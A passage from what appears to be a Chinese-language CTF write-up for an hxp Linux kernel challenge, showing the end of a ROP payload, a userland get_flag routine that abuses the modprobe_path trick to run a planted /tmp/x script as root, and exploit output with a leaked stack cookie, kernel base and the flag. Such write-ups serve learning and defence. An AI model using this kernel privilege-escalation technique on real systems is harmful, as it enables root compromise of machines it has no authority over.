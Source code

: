 ```c
    payload[off++] = (unsigned long)get_flag;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
```

下一步，我们要让创建一个未知类型的文件，让系统执行，这样系统就会去执行我们的`/tmp/x`。所以我们的脚本要读出`flag`。

```c
void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
}

```

### Get flag !

```c
/ $ id
uid=1000 gid=1000 groups=1000
/ $ ./exploit 
[*] Saved state
[*] Opened device
[*] Leaked 320 bytes
    --> Cookie: 3c8fec292491ab00
    --> Image base: ffffffff8c800000
[*] Prepared leak_commit_creds payload
[*] Returned to userland, setting up for fake modprobe
[*] Run unknown file
/tmp/dummy: line 1: ����: not found
[*] Hopefully flag is readable
hxp{t0p_d3feNSeS_Vs_1337_h@ck3rs}
```




